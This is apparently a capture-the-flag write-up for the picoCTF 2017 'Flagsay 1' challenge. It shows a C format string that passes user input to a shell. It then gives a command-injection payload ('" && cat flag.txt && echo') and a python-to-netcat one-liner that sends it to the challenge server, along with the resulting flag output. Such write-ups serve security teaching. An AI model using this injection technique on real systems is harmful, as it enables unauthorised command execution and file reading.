 # Flagsay 1
```
I heard you like flags, so now you can make your own! Exhilarating! Use flagsay-1! Source. Connect on shell2017.picoctf.com:19094.
HINTS
System will run exactly what the program gives it
```

Since the program just runs the command that we give it, we just have to cat the flag and then pass that result back to the terminal. There is a catch, however, the commandBase string already contains a command.

```C
char commandBase[] = "/bin/echo \"%s\"\n";
```

We can execute a new command on top of the existing one by separating our commands from it with '&&.' We will need to cat the contents of flag.txt and then echo it to the console like so.

```
" && cat flag.txt && echo"
```

We pipe that text into the netcat application with the following python command, akin to an echo -e. 

```
python -c "print '\" && cat flag.txt && echo\"'" | nc shell2017.picoctf.com 19094
```

The result yields the contents of flag.txt.
```
               _
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
             //
0631e788cab2c2de59a5419b6c90c55c
sh: 16: echo         /
            //                                   /
           //                                   /
          //                                   /
         //                                   /
        //                                   /
       //___________________________________/
      //
     //
    //
   //
  //
 //
: not found
```

